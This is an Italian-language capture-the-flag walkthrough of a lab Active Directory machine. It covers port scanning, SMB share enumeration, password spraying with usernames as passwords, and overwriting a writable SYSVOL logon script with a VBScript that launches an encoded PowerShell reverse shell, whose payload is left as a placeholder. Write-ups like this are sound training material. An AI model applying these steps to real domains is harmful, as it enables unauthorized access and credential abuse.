




# **BabyTwo**

Machine Information:
```
The User flag for this Box is located in a non-standard directory, C:\.
```

## **Reconnaissance**
Si scansione la macchina target per individuare porte TCP aperte.
```bash
$ nmap -p- --min-rate 1000 -T4 10.129.234.72 
```
```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
9389/tcp  open  adws
49664/tcp open  unknown
49668/tcp open  unknown
56704/tcp open  unknown
56740/tcp open  unknown
61454/tcp open  unknown
64462/tcp open  unknown
64463/tcp open  unknown
64479/tcp open  unknown
```

La presenza di servizi quali DNS, Kerberos, RPC, LDAP e SMB fanno pensare che si ha a che fare con un dominio Active Directory.

Inoltre, è disponibile anche il servizio RDP.

Si raccolgono ulteriori informazioni sui servizi esposti.
```bash
$ nmap -p53,88,135,139,389,445,464,593,636 -sCV 10.129.234.72
```
```
PORT    STATE SERVICE       VERSION
53/tcp  open  domain        Simple DNS Plus
88/tcp  open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-11-20 22:21:32Z)
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.baby2.vl, DNS:baby2.vl, DNS:BABY2
| Not valid before: 2025-08-19T14:22:11
|_Not valid after:  2105-08-19T14:22:11
|_ssl-date: TLS randomness does not represent time
445/tcp open  microsoft-ds?
464/tcp open  kpasswd5?
593/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.baby2.vl, DNS:baby2.vl, DNS:BABY2
| Not valid before: 2025-08-19T14:22:11
|_Not valid after:  2105-08-19T14:22:11
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Si aggiorna il file /etc/hosts aggiungendo un record per associare l'indirizzo IP della macchina target con hostname, domain controller e domain name ricavati dalla scansione precedente.
```
10.129.234.72 DC DC.baby2.vl baby2.vl
```

## **Information Gathering**

### SMB
Si tenta l'accesso con l'account guest.
```bash
$ nxc smb baby2.vl -u guest -p ''
```
```
SMB         10.129.234.72   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:baby2.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.72   445    DC               [+] baby2.vl\guest: 
```

Ed anche con l'account anonimo.
```bash
$ nxc smb baby2.vl -u '' -p '' 
```
```
SMB         10.129.234.72   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:baby2.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.72   445    DC               [+] baby2.vl\: 
```

Si enumerano le shares con l'account guest.
```bash
$ nxc smb baby2.vl -u guest -p '' --shares
```
```
SMB         10.129.234.72   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:baby2.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.72   445    DC               [+] baby2.vl\guest: 
SMB         10.129.234.72   445    DC               [*] Enumerated shares
SMB         10.129.234.72   445    DC               Share           Permissions     Remark
SMB         10.129.234.72   445    DC               -----           -----------     ------
SMB         10.129.234.72   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.72   445    DC               apps            READ            
SMB         10.129.234.72   445    DC               C$                              Default share
SMB         10.129.234.72   445    DC               docs                            
SMB         10.129.234.72   445    DC               homes           READ,WRITE      
SMB         10.129.234.72   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.72   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.234.72   445    DC               SYSVOL                          Logon server share
```

Oltre alle share di default sono presenti le cartelle condivise **apps**, **docs** e **homes**.

Con l'account guest si ha accesso in lettura per la share apps, e permessi di scrittura per homes.

### Apps



Si scaricano i files sulla macchina Kali e li si analizzano.

`CHANGELOG`
```
[0.2]

- Added automated drive mapping

[0.1]

- Rolled out initial version of the domain logon script%
```

Mentre, il file login.vbs.lnk è un link simbolico.



### Homes


Le cartelle somo vuote. 

Si memorizzano questi username in un file.

`users.txt`

```
Amelia.Griffiths
Carl.Moore
Harry.Shaw
Joan.Jennings
Joel.Hurst
Kieran.Mitchell
Lynda.Bailey
Mohammed.Harris
Nicola.Lamb
Ryan.Jenkins
```

## **Password spraying**

```bash
$ nxc smb baby2.vl -u users.txt -p users.txt --no-bruteforce --continue-on-success 
```
```
SMB         10.129.234.72   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:baby2.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.72   445    DC               [-] baby2.vl\Amelia.Griffiths:Amelia.Griffiths STATUS_LOGON_FAILURE 
SMB         10.129.234.72   445    DC               [+] baby2.vl\Carl.Moore:Carl.Moore 
SMB         10.129.234.72   445    DC               [-] baby2.vl\Harry.Shaw:Harry.Shaw STATUS_LOGON_FAILURE 
SMB         10.129.234.72   445    DC               [-] baby2.vl\Joan.Jennings:Joan.Jennings STATUS_LOGON_FAILURE 
SMB         10.129.234.72   445    DC               [-] baby2.vl\Joel.Hurst:Joel.Hurst STATUS_LOGON_FAILURE 
SMB         10.129.234.72   445    DC               [-] baby2.vl\Kieran.Mitchell:Kieran.Mitchell STATUS_LOGON_FAILURE 
SMB         10.129.234.72   445    DC               [-] baby2.vl\Lynda.Bailey:Lynda.Bailey STATUS_LOGON_FAILURE 
SMB         10.129.234.72   445    DC               [-] baby2.vl\Mohammed.Harris:Mohammed.Harris STATUS_LOGON_FAILURE 
SMB         10.129.234.72   445    DC               [-] baby2.vl\Nicola.Lamb:Nicola.Lamb STATUS_LOGON_FAILURE 
SMB         10.129.234.72   445    DC               [-] baby2.vl\Ryan.Jenkins:Ryan.Jenkins STATUS_LOGON_FAILURE 
SMB         10.129.234.72   445    DC               [+] baby2.vl\library:library 
```

Si ottengono le credenziali **Carl.Moore:Carl.Moore** e di **library:library**.

## **Information Gathering as Carl.Moore**

### SMB
Si enumerano le shares.
```bash
$ nxc smb baby2.vl -u Carl.Moore -p Carl.Moore --shares 
```
```
SMB         10.129.234.72   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:baby2.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.72   445    DC               [+] baby2.vl\Carl.Moore:Carl.Moore 
SMB         10.129.234.72   445    DC               [*] Enumerated shares
SMB         10.129.234.72   445    DC               Share           Permissions     Remark
SMB         10.129.234.72   445    DC               -----           -----------     ------
SMB         10.129.234.72   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.72   445    DC               apps            READ,WRITE      
SMB         10.129.234.72   445    DC               C$                              Default share
SMB         10.129.234.72   445    DC               docs            READ,WRITE      
SMB         10.129.234.72   445    DC               homes           READ,WRITE      
SMB         10.129.234.72   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.72   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.234.72   445    DC               SYSVOL          READ            Logon server share
```

Carl possiede i privilegi di lettura e scrittura su apps, docs e homes.

Si enumerano anche gli utenti.

```bash
$ nxc smb baby2.vl -u Carl.Moore -p Carl.Moore --users
```
```
SMB         10.129.234.72   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:baby2.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.72   445    DC               [+] baby2.vl\Carl.Moore:Carl.Moore 
SMB         10.129.234.72   445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.129.234.72   445    DC               Administrator                 2023-08-22 19:56:27 0       Built-in account for administering the computer/domain 
SMB         10.129.234.72   445    DC               Guest                         2023-08-22 19:13:38 0       Built-in account for guest access to the computer/domain 
SMB         10.129.234.72   445    DC               krbtgt                        2023-08-22 17:38:16 0       Key Distribution Center Service Account 
SMB         10.129.234.72   445    DC               gpoadm                        2023-08-22 17:49:36 0        
SMB         10.129.234.72   445    DC               Joan.Jennings                 2023-08-22 19:18:20 2        
SMB         10.129.234.72   445    DC               Mohammed.Harris               2023-08-22 19:18:21 2        
SMB         10.129.234.72   445    DC               Harry.Shaw                    2023-08-22 19:18:21 2        
SMB         10.129.234.72   445    DC               Carl.Moore                    2023-08-22 20:24:41 0        
SMB         10.129.234.72   445    DC               Ryan.Jenkins                  2023-08-22 19:18:21 2        
SMB         10.129.234.72   445    DC               Kieran.Mitchell               2023-08-22 19:18:21 2        
SMB         10.129.234.72   445    DC               Nicola.Lamb                   2023-08-22 19:18:21 2        
SMB         10.129.234.72   445    DC               Lynda.Bailey                  2023-08-22 19:18:21 2        
SMB         10.129.234.72   445    DC               Joel.Hurst                    2023-08-22 19:18:21 2        
SMB         10.129.234.72   445    DC               Amelia.Griffiths              2023-08-22 19:18:21 3        
SMB         10.129.234.72   445    DC               library                       2023-09-02 14:46:55 0        
SMB         10.129.234.72   445    DC               [*] Enumerated 15 local users: BABY2
```


Non si ottengono altre informazioni.

## **Information Gathering as library**

### SMB
Si enumerano le shares
```bash
$ nxc smb baby2.vl -u library -p library --shares
```
```
SMB         10.129.234.72   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:baby2.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.72   445    DC               [+] baby2.vl\library:library 
SMB         10.129.234.72   445    DC               [*] Enumerated shares
SMB         10.129.234.72   445    DC               Share           Permissions     Remark
SMB         10.129.234.72   445    DC               -----           -----------     ------
SMB         10.129.234.72   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.72   445    DC               apps            READ,WRITE      
SMB         10.129.234.72   445    DC               C$                              Default share
SMB         10.129.234.72   445    DC               docs            READ,WRITE      
SMB         10.129.234.72   445    DC               homes           READ,WRITE      
SMB         10.129.234.72   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.72   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.234.72   445    DC               SYSVOL          READ            Logon server share 
```

Stessi privilegi di Carl.

Il file **login.vbs.lnk** era un link simbolico ad uno script contenuto in **SYSVOL**.



Si scarica il file sulla macchina Kali e lo si analizza.

```
Sub MapNetworkShare(sharePath, driveLetter)
    Dim objNetwork
    Set objNetwork = CreateObject("WScript.Network")    
  
    ' Check if the drive is already mapped
    Dim mappedDrives
    Set mappedDrives = objNetwork.EnumNetworkDrives
    Dim isMapped
    isMapped = False
    For i = 0 To mappedDrives.Count - 1 Step 2
        If UCase(mappedDrives.Item(i)) = UCase(driveLetter & ":") Then
            isMapped = True
            Exit For
        End If
    Next
    
    If isMapped Then
        objNetwork.RemoveNetworkDrive driveLetter & ":", True, True
    End If
    
    objNetwork.MapNetworkDrive driveLetter & ":", sharePath
    
    If Err.Number = 0 Then
        WScript.Echo "Mapped " & driveLetter & ": to " & sharePath
    Else
        WScript.Echo "Failed to map " & driveLetter & ": " & Err.Description
    End If
    
    Set objNetwork = Nothing
End Sub

MapNetworkShare "\\dc.baby2.vl\apps", "V"
MapNetworkShare "\\dc.baby2.vl\docs", "L"
```

## **SYSVOL arbitrary login script execution**
L'idea è quella di sostituire lo script login.vbs con uno malevole per eseguire una reverse shell. Questo script sarà eseguito con il login di un account.

Si costruisce un file vbs per eseguire una reverse shell.

`login.vbs`
```
Option Explicit
Dim cmd
Dim objShell

' Consruct DOS command to call PowerShell script (DOS syntax)
cmd = "powershell -e <BASE64 reverse shell encoded>"

' Create shell object
Set objShell = CreateObject("Wscript.Shell")

' Execute the command
objShell.run(cmd)
```

Si sostutuisce il file e sulla macchina Kali si avvia una listener sulla porta 4444.


## **Reverse Shell as Amelia.Griffiths**

Si accede al contenuto del file **users.txt**.



---
